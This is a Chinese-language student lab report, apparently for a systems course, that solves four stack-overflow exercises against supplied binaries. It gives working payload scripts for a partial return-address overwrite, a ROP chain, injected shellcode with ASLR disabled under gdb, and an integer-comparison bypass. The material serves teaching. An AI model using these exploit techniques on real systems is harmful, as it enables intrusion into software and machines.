



# 栈溢出攻击实验
胡博玮 2024201513
## 题目解决思路


### Problem 1: 
- **分析**：
```c
objdump -s -j .rodata problem1 | head
```
查看前行.rodata:
```
 402000 01000200 59657321 49206c69 6b652049  ....Yes!I like I
 402010 43532100 446f2079 6f75206c 696b6520  CS!.Do you like 
 402020 4943533f 00557361 67653a20 2573203c  ICS?.Usage: %s <
 402030 66696c65 3e0a0072 00666f70 656e0066  file>..r.fopen.f
 402040 72656164 00596f75 20646f6e 2774206c  read.You don't l
 402050 696b6520 69742120 596f7520 6661696c  ike it! You fail
 402060 2100                                 !.              
```
找到了```Yes!I like ICS! ```的起始地址是$402004$

```
objdump -d problem1
```
看到
```
0000000000401216 <func1>:
  401216:       f3 0f 1e fa             endbr64 
  40121a:       55                      push   %rbp
  40121b:       48 89 e5                mov    %rsp,%rbp
  40121e:       bf 04 20 40 00          mov    $0x402004,%edi
  401223:       e8 98 fe ff ff          call   4010c0 <_init+0xc0>
  401228:       bf 00 00 00 00          mov    $0x0,%edi
  40122d:       e8 ee fe ff ff          call   401120 <_init+0x120>
```
可知：
- 目标 `func1 = 0x0000000000401216`
- 只写入低 3 字节 `16 12 40`，再跟一个 `\\x00` 作为字符串结束符
- 高位保持原返回地址的 `0x000000000040xxxx`，从而跳到 `0x401216`
- **解决方案**：

```bash
python3 - <<'PY'
payload = b"A"*16 + b"\x16\x12\x40" + b"\x00"
open("ans1.txt","wb").write(payload)
print("len =", len(payload))
PY
```
- **结果**：


### Problem 2:
- **分析**：
同上的方法，可知：
```c
`func2(int x)`：当 `x == 0x3f8` 时打印 `Yes!I like ICS!`
```
而第 1 个参数在 `rdi`，所以需要 `pop rdi; ret` gadget。找到`pop rdi; ret`的地址是`0x4012c7`
另外栈必须 16 字节对齐，否则 `func2` 内部调用 `printf` 可能崩溃；解决方式是在链前插入一个单独的 `ret` 垫片。
定位到
- `func2`：`0x401216`
- `pop rdi; ret`：`0x4012c7`
- `ret`：`0x4012c8`

因此思路是构造 ROP，让 `rdi = 0x3f8`，然后跳到 `func2`。


- **解决方案**：

```bash
python3 - <<'PY'
import struct
p64 = lambda x: struct.pack("<Q", x)

RET     = 0x4012c8
POP_RDI = 0x4012c7
FUNC2   = 0x401216

payload  = b"A"*16
payload += p64(RET)          # 16-byte stack alignment
payload += p64(POP_RDI)
payload += p64(0x3f8)        # rdi = 1016
payload += p64(FUNC2)        # func2(rdi)

payload = payload.ljust(0x38, b"B")  # func 中固定拷贝 0x38
open("ans2.txt","wb").write(payload)
print("len =", len(payload))
PY
```

- **结果**：


### Problem 3: 
- **分析**：
1) `func1(int x)`：当 `x == 0x72`（114）时打印 `Your lucky number is 114` 并退出。

2) 漏洞函数 `func`：
- `memcpy(dst=[rbp-0x20], src, 0x40)`
- 缓冲区大小仅 `0x20`，但拷贝 `0x40`，可覆盖返回地址
- 到返回地址偏移：\(0x20 + 8 = 0x28\)（40 字节）

3) 在`.text` 中没有找到 `pop rdi; ret` 等 gadget，所以在栈上写一小段 shellcode：
- `mov edi, 0x72`
- `mov rax, func1`
- `call rax`

4) ASLR 会导致栈地址变化，返回到栈上需要知道缓冲区地址。
README 允许“gdb 模式下体现正确”，因此这里用 $setarch -R + gdb$做稳定复现。
- **解决方案**：
先生成占位输入：
```bash
python3 - <<'PY'
open("ans3_tmp.txt","wb").write(b"A"*0x40)
print("ok")
PY
```
然后启动gdb
```
setarch x86_64 -R gdb -q --args ./problem3
```
为避免输出暂停，关闭分页
```
set pagination off
```
然后断在 `func`
```
b func
```
```
run ans3_tmp.txt
```
然后与python交互
```
python
回车
```
逐行回车后输入
```
import struct, gdb
buf = int(gdb.parse_and_eval("$rbp-0x20"))
func1 = 0x401216
p64 = lambda x: struct.pack("<Q", x)
sc = b"\xbf\x72\x00\x00\x00" + b"\x48\xb8" + p64(func1) + b"\xff\xd0"
sc = sc.ljust(32, b"\x90")
payload = sc + b"B"*8 + p64(buf)
payload = payload.ljust(0x40, b"C")
open("ans3.txt","wb").write(payload)
print("buf=", hex(buf), "len=", len(payload))
end
```
之后删除断点
```
delete breakpoints
```
重新运行程序，传入生成的`ans3.txt`.从而执行构造好的 payload，触发缓冲区溢出，执行恶意代码。
```
run ans3.txt
```
- **结果**：


### Problem 4: 
- **分析**：
1) **Canary 机制在汇编中的体现**
阅读汇编，
以 `main` 为例（`func/func1` 也同理）：
- 函数序言读 canary：`mov rax, QWORD PTR fs:0x28`，保存到栈上 `[rbp-0x8]`
- 函数尾声比较 canary，不一致就调用 `__stack_chk_fail`
因此如果通过覆盖返回地址攻击，便会覆盖到 canary，  就会直接崩溃。

2) **但本题不需要溢出**
`func` 会打印 `your money is %u`（无符号），并用无符号比较 `jae` 把 `money` 和 `-2(0xfffffffe)` 比较。
当输入 `-1` 时：
- 32 位无符号视角下是 `0xffffffff`（4294967295）
- 能通过 `money >= -2` 的判断
- 后续循环会把 money 变成 `1`
- 最终触发 `func1()` 打印通关提示并退出


- **解决方案**：
运行`./problem4`后随便输入前两个参数，
然后输入-1.
- **结果**：


## 思考与总结
- **Problem1**：字符串拷贝+`\\x00` 截断 $\rightarrow$ 利用部分覆盖实现 ret2win
- **Problem2**：NX 场景必须 ROP；**同时必须遵守 ABI（参数寄存器与栈对齐）**
- **Problem3**：栈可执行时可用 shellcode；但要处理 ASLR（用 gdb/关闭 ASLR 做稳定复现）
- **Problem4**：即使有 Canary/PIE/NX，也可能被“**逻辑漏洞**”绕过


## 参考资料
- https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
